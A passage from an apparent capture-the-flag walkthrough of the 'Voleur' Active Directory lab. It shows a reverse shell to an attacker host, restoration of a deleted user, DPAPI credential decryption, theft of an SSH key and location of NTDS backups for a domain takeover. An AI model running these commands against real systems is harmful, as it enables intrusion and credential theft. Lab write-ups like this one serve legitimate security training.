

Start a listener on the attack host, then launch a reverse shell as `svc_ldap`:

```powershell
.\RunasCs.exe svc_ldap M1XyC9pW7qT5Vn powershell.exe -r 10.10.15.14:8001
```



In the `svc_ldap` shell, list deleted user objects (AD Recycle Bin must be enabled — it is here):

```powershell
Get-ADObject -Filter 'isDeleted -eq $true -and objectClass -eq "user"' -IncludeDeletedObjects
```



Restore Todd by object GUID (from the output above):

```powershell
Restore-ADObject -Identity 1c6b1deb-c372-4cbb-87b1-15031de169db
```


Auth as the restored principal with the password from Access Review — previously this failed with `C_PRINCIPAL_UNKNOWN`:

```bash
nxc smb DC.voleur.htb -u todd.wolfe -p 'NightT1meP1dg3on14' -k
```



BloodHound on Todd: **Second-Line Technicians** + **Remote Management Users** — enough to open Second-Line share content and WinRM if needed:



---
### 4.2 Archived Profile + DPAPI → `jeremy.combs`

Second-Line kept an offline copy of Todd’s Windows profile under `IT\Second-Line Support\Archived Users\todd.wolfe`. That tree includes DPAPI masterkeys and Credential Manager blobs — if we decrypt them with Todd’s password, we can recover secrets he stored while the account still existed (often other users’ domain passwords).

Confirm the archived profile path on the share:

```bash
smbclient --realm=voleur.htb -U 'voleur.htb/todd.wolfe%NightT1meP1dg3on14' //dc.voleur.htb/IT
# cd "Second-Line Support/Archived Users/todd.wolfe"
# ls / recurse into AppData\Roaming\Microsoft\Protect and Credentials
```



Enumerate the share with `spider_plus` so we do not miss nested DPAPI paths:

```bash
nxc smb dc.voleur.htb -u todd.wolfe -p 'NightT1meP1dg3on14' -k -M spider_plus
```



Filter the spider JSON for **Local** Credential Manager entries:

```bash
jq '.. | objects | select(has("name")) | select(.name | test("Credentials";"i"))' spider_plus/*.json
# look under AppData\Local\Microsoft\Credentials
```



Same for **Roaming** Protect / Credentials (domain-synced creds live here more often):

```bash
jq '.. | objects | select(has("name")) | select(.name | test("Protect|Credentials";"i"))' spider_plus/*.json
```



DPAPI decryption needs Todd’s SID. Pull it from BloodHound / LDAP (RID ends in `-1110`):

```bash
# S-1-5-21-3927696377-1337352550-2781715495-1110
```



Download the masterkey GUID under `Protect\<SID>\` and candidate credential blobs:

```bash
# masterkey: 08949382-134f-4c63-b93c-ce52efc0aa88
# Local cred:  DFBE70A7E5CC19A398EBF1B96859CE5D
smbclient ... -c 'get "…/Protect/…/08949382-…"'
smbclient ... -c 'get "…/Credentials/DFBE70A7…"'
```



Unlock the masterkey with Todd’s cleartext password + SID:

```bash
impacket-dpapi masterkey \
  -file 08949382-134f-4c63-b93c-ce52efc0aa88 \
  -sid S-1-5-21-3927696377-1337352550-2781715495-1110 \
  -password NightT1meP1dg3on14
```



Decrypt the Local credential first — it turns out to be WindowsLive / virtualapp noise, not a domain password:

```bash
impacket-dpapi credential \
  -file DFBE70A7E5CC19A398EBF1B96859CE5D \
  -key <MASTERKEY_HEX>
```



Hunt for other 32-char credential filenames in the spider output / share listing:

```bash
grep -oE '[A-F0-9]{32}' spider_plus/*.json | sort -u
```



Confirm which paths are under `Credentials\` (not Protect masterkeys):

```bash
grep -i Credentials spider_plus/*.json
```


Pull the Roaming credential blob (`772275FAD58525253490A9B0039791D3`):

```bash
smbclient ... -c 'get "…/AppData/Roaming/Microsoft/Credentials/772275FAD58525253490A9B0039791D3"'
```



Decrypt it with the same masterkey — `CRED_TYPE_DOMAIN_PASSWORD` for **`jeremy.combs`** / `qT3V9pLXyN7W4m`:

```bash
impacket-dpapi credential \
  -file 772275FAD58525253490A9B0039791D3 \
  -key <MASTERKEY_HEX>
```



Validate Jeremy over Kerberos:

```bash
nxc smb dc.voleur.htb -u jeremy.combs -p 'qT3V9pLXyN7W4m' -k
```



BloodHound: Jeremy is **Third-Line Technicians** + **Remote Management Users** — that unlocks the Third-Line share:



Optional WinRM session as Jeremy (same Kerberos-only pattern as `svc_winrm`):

```bash
impacket-getTGT 'voleur.htb/jeremy.combs:qT3V9pLXyN7W4m' -dc-ip 10.129.232.130
KRB5CCNAME=jeremy.combs.ccache evil-winrm -i dc.voleur.htb -r voleur.htb
```



---
### 4.3 Third-Line Loot — SSH Key for `svc_backup`

Access Review said to “speak to Jeremy” about `svc_backup`. As Jeremy, list **Third-Line Support** on `IT` and pull the SSH private key plus the accompanying note:

```bash
smbclient --realm=voleur.htb -U 'voleur.htb/jeremy.combs%qT3V9pLXyN7W4m' //dc.voleur.htb/IT
# cd "Third-Line Support"
# get id_rsa
# get Note.txt.txt
```



`Note.txt.txt` explains they abandoned Windows Server Backup and started configuring **WSL** for backup work — that matches SSH on `:2222` seen in the initial scan:



Confirm the key’s public identity (comment / principal) before connecting:

```bash
chmod 600 id_rsa
ssh-keygen -y -f id_rsa
# comment / fingerprint points at svc_backup@DC
```



SSH into the WSL Ubuntu instance as `svc_backup` on port 2222:

```bash
ssh -i id_rsa svc_backup@10.129.232.130 -p 2222
```



---
### 4.4 NTDS Backup Dump → Domain Admin

Inside WSL, Windows drives are under `/mnt/c`. Third-Line left a full AD backup tree (`ntds.dit` + `SYSTEM` + `SECURITY`) readable by this backup account — enough for an offline DCSync-equivalent without touching LSASS live.

Locate the backup files from the WSL shell:

```bash
find "/mnt/c/IT/Third-Line Support/Backups" -type f
# …/Active Directory/ntds.dit
# …/registry/SYSTEM
# …/registry/SECURITY
```

